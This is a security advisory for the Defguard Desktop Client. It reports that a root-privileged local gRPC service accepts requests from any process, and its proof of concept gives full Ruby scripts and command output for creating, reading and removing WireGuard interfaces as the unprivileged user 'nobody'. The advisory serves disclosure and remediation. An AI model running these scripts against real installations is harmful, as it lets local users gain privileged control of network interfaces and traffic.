 ```yaml
---
title: "DG25-27: [desktop_client] Unrestricted access to the local gRPC service"
severity: Medium
cvss_score: 8.7
cvss_string: "CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:C/C:L/I:H/A:H"
issue_link: https://github.com/DefGuard/client/issues/551
status: In Progress
---
```


#### Detailed status

Issue fixed for Linux and MacOS. In progress for Windows.

### Technical details

Defguard Desktop Client package installs a privileged system service and
an unprivileged client application.

The Defguard service exposes on local port (54127) the gRPC service for
communication with the Defguard GUI application.

Unprivileged process can request three actions using the gRPC service:

-   create interface (new WireGuard connection)

-   read interface data (info about a remote peer)

-   remove interface (close connection)

Each action is performed with system service privileges (root on Linux
and MacOS, SYSTEM on Windows).

The gRPC service is available to any process that can establish a TCP
connection to local port 127.0.0.1:54127 and does not implement any
access control.

#### Proof of Concept

Example shows how to perform available actions using Ruby environment
and direct gRPC requests.

1.  Debian Linux with Defguard Desktop Client.

```bash
$ uname -a
Linux vboxdeb 6.1.0-32-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.129-1 (2025-03-06) x86_64 GNU/Linux

$ /usr/sbin/defguard-service --version
defguard-client 1.5.0
```

![](/images/pentest/DG25/img10.png)

2.  Install ruby environment with gRPC modules.

```sh
apt install ruby ruby-dev
gem install grpc grpc-tools
```

3. Download source code of the Defguard Desktop Client.

```bash
$ git clone --depth=1 --recurse-submodules -b v1.5.0-alpha1 https://github.com/DefGuard/client.git defguard_client_v1.5.0-alpha1
```

4.  Generate Ruby scripts for the gRPC service.

```bash
$ mkdir /tmp/grpc_ruby
$ grpc_tools_ruby_protoc --proto_path=./defguard_client_v1.5.0-alpha1/src-tauri/proto/client/ --ruby_out=/tmp/grpc_ruby --grpc_out=/tmp/grpc_ruby client.proto
```

5.  Check network configuration.

```bash
# ifconfig -a
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
        inet 10.0.2.15 netmask 255.255.255.0 broadcast 10.0.2.255
        inet6 fe80::a00:27ff:feb2:fc34 prefixlen 64 scopeid 0x20<link>
        inet6 fd00::a00:27ff:feb2:fc34 prefixlen 64 scopeid 0x0<global>
        inet6 fd00::5415:67df:27a2:ae1f prefixlen 64 scopeid 0x0<global>
        ether 08:00:27:b2:fc:34 txqueuelen 1000 (Ethernet)
        RX packets 68167 bytes 88898744 (84.7 MiB)
        RX errors 0 dropped 0 overruns 0 frame 0
        TX packets 34105 bytes 2619543 (2.4 MiB)
        TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
        inet 127.0.0.1 netmask 255.0.0.0
        inet6 ::1 prefixlen 128 scopeid 0x10<host>
        loop txqueuelen 1000 (Local Loopback)
        RX packets 1245 bytes 107392 (104.8 KiB)
        RX errors 0 dropped 0 overruns 0 frame 0
        TX packets 1245 bytes 107392 (104.8 KiB)
        TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
```

6.  Create a new WireGuard interface with active connection.

```bash
$ sudo -u nobody id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)

$ sudo -u nobody ruby -I/tmp/grpc_ruby create_interface.rb
```

**create_interface.rb**

```ruby
require 'client_services_pb'
include Client

grpc = DesktopDaemonService::Stub::new('127.0.0.1:54127', :this_channel_is_insecure)

grpc.create_interface CreateInterfaceRequest::new(
  config: InterfaceConfig::new(
    name: 'wg1337',
    prvkey: '9318b207a7817a6d991e74d6300a6f724e6390a32d186e1e0e4f3c370334f563',
    address: '10.22.33.20/24',
    port: 1337,
    peers: [
      Peer::new(
        public_key: 'c2ae6e16af449e74509080c9af723f6d84bf12106fc1ce27a6d21ec278737615',
        preshared_key: '0000000000000000000000000000000000000000000000000000000000000000',
        protocol_version: 1,
        endpoint: '167.172.191.17:51820',
        last_handshake: 0,
        tx_bytes: 0,
        rx_bytes: 0,
        persistent_keepalive_interval: 300,
        allowed_ips: ['10.22.33.0/24']
      )
    ]
  ),
  allowed_ips: ['10.22.33.0/24'],
  dns: '1.1.1.1'
)
```

7.  Check network configuration.

```bash
# ifconfig -a
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
        inet 10.0.2.15 netmask 255.255.255.0 broadcast 10.0.2.255
        inet6 fe80::a00:27ff:feb2:fc34 prefixlen 64 scopeid 0x20<link>
        inet6 fd00::a00:27ff:feb2:fc34 prefixlen 64 scopeid 0x0<global>
        inet6 fd00::5415:67df:27a2:ae1f prefixlen 64 scopeid 0x0<global>
        ether 08:00:27:b2:fc:34 txqueuelen 1000 (Ethernet)
        RX packets 68303 bytes 88926375 (84.8 MiB)
        RX errors 0 dropped 0 overruns 0 frame 0
        TX packets 34244 bytes 2647464 (2.5 MiB)
        TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
        inet 127.0.0.1 netmask 255.0.0.0
        inet6 ::1 prefixlen 128 scopeid 0x10<host>
        loop txqueuelen 1000 (Local Loopback)
        RX packets 1263 bytes 109200 (106.6 KiB)
        RX errors 0 dropped 0 overruns 0 frame 0
        TX packets 1263 bytes 109200 (106.6 KiB)
        TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0

wg1337: flags=209<UP,POINTOPOINT,RUNNING,NOARP> mtu 1420
        inet 10.22.33.20 netmask 255.255.255.0 destination 10.22.33.20
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00 txqueuelen 1000 (UNSPEC)
        RX packets 2 bytes 124 (124.0 B)
        RX errors 0 dropped 0 overruns 0 frame 0
        TX packets 2 bytes 180 (180.0 B)
        TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
```

8.  Read interface data.

```bash
$ sudo -u nobody ruby -I/tmp/grpc_ruby read_interface_data.rb
```

**Output:**
```
<Client::InterfaceData: listen_port: 1337, peers: [<Client::Peer: public_key: "c2ae6e16af449e74509080c9af723f6d84bf12106fc1ce27a6d21ec278737615", preshared_key: "0000000000000000000000000000000000000000000000000000000000000000", endpoint: "167.172.191.17:51820", last_handshake: 1755875939, tx_bytes: 180, rx_bytes: 252, persistent_keepalive_interval: 300, allowed_ips: ["10.22.33.0/24"]>]>
```

**read_interface_data.rb**

```ruby
require 'client_services_pb'
include Client

grpc = DesktopDaemonService::Stub::new('127.0.0.1:54127', :this_channel_is_insecure)

result = grpc.read_interface_data ReadInterfaceDataRequest::new(
  interface_name: 'wg1337'
)

result.each do |data|
  break if data.peers.empty?
  p data
end
```

9.  Remove interface (close connection).

```bash
$ sudo -u nobody ruby -I/tmp/grpc_ruby remove_interface.rb
```

**remove_interface.rb**

```ruby
require 'client_services_pb'
include Client

grpc = DesktopDaemonService::Stub::new('127.0.0.1:54127', :this_channel_is_insecure)

grpc.remove_interface RemoveInterfaceRequest::new(
  interface_name: 'wg1337',
  endpoint: '10.22.33.20/24'
)
```

10. Check network configuration.

```bash
# ifconfig -a
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
        inet 10.0.2.15 netmask 255.255.255.0 broadcast 10.0.2.255
        inet6 fe80::a00:27ff:feb2:fc34 prefixlen 64 scopeid 0x20<link>
        inet6 fd00::a00:27ff:feb2:fc34 prefixlen 64 scopeid 0x0<global>
        inet6 fd00::5415:67df:27a2:ae1f prefixlen 64 scopeid 0x0<global>
        ether 08:00:27:b2:fc:34 txqueuelen 1000 (Ethernet)
        RX packets 68327 bytes 88930655 (84.8 MiB)
        RX errors 0 dropped 0 overruns 0 frame 0
        TX packets 34261 bytes 2650098 (2.5 MiB)
        TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
        inet 127.0.0.1 netmask 255.0.0.0
        inet6 ::1 prefixlen 128 scopeid 0x10<host>
        loop txqueuelen 1000 (Local Loopback)
        RX packets 1305 bytes 112781 (110.1 KiB)
        RX errors 0 dropped 0 overruns 0 frame 0
        TX packets 1305 bytes 112781 (110.1 KiB)
        TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
```
